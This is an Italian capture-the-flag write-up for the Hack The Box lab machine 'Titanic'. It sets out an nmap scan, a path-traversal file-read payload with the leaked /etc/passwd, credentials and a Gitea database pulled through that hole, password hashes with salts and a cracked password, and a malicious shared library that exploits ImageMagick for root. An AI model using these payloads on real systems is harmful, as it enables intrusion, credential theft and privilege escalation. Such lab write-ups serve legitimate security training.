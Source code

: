 # TITANIC

ip: 10.10.11.55

sito: titanic.htb

# NMAP

Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-05-19 18:35 CEST
Nmap scan report for 10.10.11.55
Host is up (0.52s latency).
Not shown: 936 closed tcp ports (reset), 62 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 73:03:9c:76:eb:04:f1:fe:c9:e9:80:44:9c:7f:13:46 (ECDSA)
|_  256 d5:bd:1d:5e:9a:86:1c:eb:88:63:4d:5f:88:4b:7e:04 (ED25519)
80/tcp open  http    Apache httpd 2.4.52
|_http-title: Did not follow redirect to http://titanic.htb/
|_http-server-header: Apache/2.4.52 (Ubuntu)
Aggressive OS guesses: Linux 4.15 - 5.8 (96%), Linux 5.3 - 5.4 (95%), Linux 2.6.32 (95%), Linux 5.0 - 5.5 (95%), Linux 3.1 (95%), Linux 3.2 (95%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (95%), ASUS RT-N56U WAP (Linux 3.4) (93%), Linux 3.16 (93%), Linux 5.0 - 5.4 (93%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: titanic.htb; OS: Linux; CPE: cpe:/o:linux:linux_kernel

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 50.43 seconds

# Exploit

Visito il sito -> posso solo prenotare un viaggio

Mando il form con burp aperto e noto che il json che si scarica viene inserito nei parametri.

Faccio tampering e inserendo

`/download?ticket=../../../../../../etc/passwd`

ottengo in output il contenuto del file -> VULNERABILE A LFI

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-network:x:101:102:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:102:103:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:103:104::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:104:105:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
pollinate:x:105:1::/var/cache/pollinate:/bin/false
sshd:x:106:65534::/run/sshd:/usr/sbin/nologin
syslog:x:107:113::/home/syslog:/usr/sbin/nologin
uuidd:x:108:114::/run/uuidd:/usr/sbin/nologin
tcpdump:x:109:115::/nonexistent:/usr/sbin/nologin
tss:x:110:116:TPM software stack,,,:/var/lib/tpm:/bin/false
landscape:x:111:117::/var/lib/landscape:/usr/sbin/nologin
fwupd-refresh:x:112:118:fwupd-refresh user,,,:/run/systemd:/usr/sbin/nologin
usbmux:x:113:46:usbmux daemon,,,:/var/lib/usbmux:/usr/sbin/nologin
developer:x:1000:1000:developer:/home/developer:/bin/bash
lxd:x:999:100::/var/snap/lxd/common/lxd:/bin/false
dnsmasq:x:114:65534:dnsmasq,,,:/var/lib/misc:/usr/sbin/nologin
_laurel:x:998:998::/var/log/laurel:/bin/false
```

# USER FLAG

0ce1238e1d32a1054620672eb98c49a5



# PRIVESC

stampando anche il file hosts noto:

> 127.0.0.1 localhost titanic.htb dev.titanic.htb  
> 127.0.1.1 titanic  
> ...    

Ci sono dei sottodomini. Navigo a dev.titanic.htb dopo averlo aggiunto al file hosts -> GITEA (una versione locale di git)

Navigando dev.titanic.htb, trovo la repository dell'app (FLASK!), ma non sembra troppo interessante. 

C'é una seconda repository con dei file di configurazione per docker. 


Nel file di mySQL trovo:

```YAML
version: '3.8'

services:
  mysql:
    image: mysql:8.0
    container_name: mysql
    ports:
      - "127.0.0.1:3306:3306"
    environment:
      MYSQL_ROOT_PASSWORD: 'MySQLP@$$w0rd!'
      MYSQL_DATABASE: tickets 
      MYSQL_USER: sql_svc
      MYSQL_PASSWORD: sql_password
    restart: always
```

provo ad accedere alla porta 3306 della vm con le credenziali trovate:  `mysql root@10.10.11.55:3306` -> non funziona la connessione.

Fuzzo un altro po' e provo a a scaricare il database di gitea, solitamente in data/gitea.db: (Cercando online)

> titanic.htb/download?ticket=../../../../../../home/developer/gitea/data/gitea/gitea.db


Nel DB c'è la tabella users, che contiene username e password di developer e di root (immagino siano per l'ssh).

> root:cba20ccf927d3ad0567b68161732d3fbca098ce886bbc923b4062a3960d459c08d2dfc063b2406ac9207c980c47c5d017136  
> con salt 2d149e5fbd1b20cf31db3e3c6a28fc9b  
> 
> developer:e531d398946137baea70ed6a680a54385ecff131309c0bd8f225f284406b7cbc8efc5dbef30bf1682619263444ea594cfb56  
> con salt:  8bf3e3452b78544f8bee9400d6936d34


c'è anche scritto che l'algoritmo di hash è `pbkdf2$50000$50`. Cerco online uno script per crackarlo, dato che hashcat e john sono più lenti.

> Developer: 25282528

> Root: 

Mentre la password di root finisce di essere crackata, entro in ssh su developer:

> ssh developer@10.10.11.55

in /opt/scripts c'é uno script che viene eseguito da root e usa magick

cerco la versione con `magick --version`. trovo un exploit che usa la libreria a runtime

```bash
cd /opt/app/static/assets/images
 
gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>
 
__attribute__((constructor)) void init(){
    system("cat /root/root.txt > /tmp/rootflag");
    exit(0);
}
EOF
```

faccio partire lo script modificando un file `cp home.jpg home2.jpg`

## ROOT FLAG
36277de7a6a2b70fd45ab6156d71cd00





